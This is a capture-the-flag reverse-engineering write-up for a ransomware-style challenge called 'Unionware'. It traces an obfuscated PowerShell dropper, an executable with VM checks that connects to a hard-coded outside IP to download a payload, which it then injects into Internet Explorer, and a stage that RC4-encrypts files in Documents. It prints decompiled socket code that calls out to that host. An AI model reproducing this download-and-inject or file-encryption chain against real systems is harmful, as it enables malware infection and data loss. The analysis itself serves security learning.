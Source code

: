 # **Unionware**

### **Description:**

![image0](images/image0.png)

### **Part 1: powershell file analysis**

This is an obfuscate form of powershell, used `spit()` . Write scripts to get content clearly. Then we will have the file  `lnELKNdoie .exe`

### **Part 2: `lnELKNdoie.exe` file analysis**

At the beginning of the file there is `checkVM` function and some other checks, I choose next directly through these checks.

![image1](images/image1.png)

Enter `conn`  function, because the file used `xor obfuscate`, I debug to know function to be called, explain to `conn`:

```c
// 
v6 = ((int (__cdecl *)(int, int *, int, int))ws2_32_WSAStartup(514, &v40, a3, a4);
// get info of this addr 35.241.159.62 --> 62.159.241.35.bc.googleusercontent.com
((int (__stdcall *)(__m128i *, int, _DWORD *, void (**)(void)))ws2_32_getaddrinfo)(&v38, dword_40A3F8, v41, &v39);
// socket
    s = (const CHAR *)((int (__stdcall *)(_DWORD, _DWORD, _DWORD, __m128i *))ws2_32_socket)(*((_DWORD *)v39 + 1),*((_DWORD *)v39 + 2),*((_DWORD *)v39 + 3),v48);
// conn addr above
((int (__stdcall *)(const CHAR *, _DWORD, _DWORD))ws2_32_connect)(s,*((_DWORD *)v35 + 6),*((_DWORD *)v35 + 4));
// send: "KADMKLAFD:LSM$OPM@FLK:FM!N$@N$"
((int (__stdcall *)(const CHAR *, __m128i *, int, _DWORD))ws2_32_send)(s,&v28,&v28.m128i_i8[strlen(v28.m128i_i8) + 1] - &v28.m128i_i8[1],0)
 // recv
((int (__stdcall *)(const CHAR *, _BYTE *, int, _DWORD))ws2_32_recv)(s, buf, 1024, 0);
// shutdown
(int (__stdcall *)(const CHAR *, int))ws2_32_shutdown)(s, 1);
```

receive data until  `size == 0x6B200`:

![image2](images/image2.png)

The downloaded file will be Injected into IE, this Inject technique is quite similar [link](https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking)

### **Part 3: file `out.exe`**

The file will look in the folder `Document` file plaintext:

```c
  v14 = SHGetFolderPathA(0, 5, 0, 0, pszPath);
  j_strncat(pszPath, "\\j3w3ls", 8u);           // //Documents//j2w3ls
```

process `encrypt data`:

![image3](images/image3.png)

Enter `encrypt`  function, we will see many functions that define the functions in the `cryptopp` library, and then create `key 128bytes` by `random` function with seed at the time of `encrypt` :

![image4](images/image4.png)

Struct file:

- The first 128 bytes are the key RC4
- The other is the ciphert text

Writing a simple script to recover the original file is going to have the `flag`.

All file `.idb` and scripts i used in `files folder`.

### Reference

[RC4.c](https://gist.github.com/rverton/a44fc8ca67ab9ec32089)

